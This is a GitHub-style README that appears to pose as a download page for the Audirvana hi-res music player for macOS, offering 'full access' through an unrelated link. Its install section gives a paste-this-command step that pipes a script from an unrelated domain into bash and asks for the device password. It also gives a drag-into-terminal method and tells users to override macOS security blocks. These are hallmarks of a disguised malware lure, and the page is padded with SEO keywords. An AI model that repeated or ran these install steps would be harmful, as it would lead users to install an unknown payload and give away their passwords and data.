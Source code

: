 <p align="center">
  <img src="https://i.ibb.co/PvC1DRpP/1684162812-icon.webp" width="350" alt="Audirvana macOS Banner" />
</p>

<h1 align="center">Audirvana for macOS</h1>

<p align="center">
  🎵 Hi-Res music player for audiophiles. Experience crystal-clear sound with native FLAC, DSD, and bit-perfect playback on your Mac.  
  <br><br>
  ✅ Native Apple Silicon Support  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/247" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20AUDIRVANA%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Audirvana for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/ZpYv7wQn/1616906868-2.jpg" alt="Audirvana UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Audirvana for macOS?

**Audirvana** is a professional-grade audio player for macOS built specifically for high-resolution, bit-perfect music playback. It supports local FLAC, DSD, MQA files, and integrates seamlessly with streaming services like Qobuz and TIDAL.

With native Apple Silicon support and advanced audio routing through Core Audio and SysOptimizer, Audirvana is trusted by audiophiles who demand the highest playback fidelity possible.

---

## ✅ Why Choose Audirvana?

- 🎧 **FLAC, ALAC, WAV, AIFF, DSD, MQA Playback**  
- 📡 **Integration with Qobuz & TIDAL**  
- 🔊 **Bit-Perfect Output with SysOptimizer**  
- 💽 **Plays from Local & Network Drives**  
- 🧠 **Audio Device Configuration Panel**  
- 🍎 **Apple Silicon Native Performance**  
- 🖥️ **Modern UI for macOS Audio Control**  
- 🚫 **No Resampling or System Interference**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/mVj7Kftp/1616906875-1.jpg" alt="Audirvana Playlist Manager Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/4ZstBMhy/1616906887-4.jpg" alt="Audirvana Audio Device Panel" />
</p>

---

## 🚀 Key Features

- Hi-Res audio playback up to DSD512  
- Advanced music library management  
- Streaming and local audio unification  
- Volume bypass & memory playback modes  
- Room correction and upsampling options  
- Interface tailored for album lovers  
- Designed exclusively for macOS  
- Full offline functionality

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Audirvana manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Audio-Hires+DSD+BitPerfect-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Ready-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Audirvana – Audiophile-Grade Sound on macOS

Thanks for using **Audirvana for macOS**.  
Rediscover your music collection in true high fidelity.

---

## 🧭 Usage Context

Audirvana is a local macOS application focused on precision music playback.  
It does not stream via browser, avoids resampling, and works offline after setup.  
Ideal for dedicated Hi-Fi setups, studio work, and private listening environments.

---

## 🔍 Tags

```text
audirvana for mac download, audirvana hi-res music player macos, flac dsd audio player for mac, audiophile music software for mac, audirvana bit perfect playback macbook, audirvana m1 m2 native apple silicon, audirvana with qobuz and tidal support, high fidelity player for mac sonoma, best music player for flac and dsd mac, audirvana offline player no resampling, mac audio control sysoptimizer player, audirvana lossless audio mac download, best hi-res audio app mac 2024, audirvana professional music playback mac, audirvana full version for ventura monterey
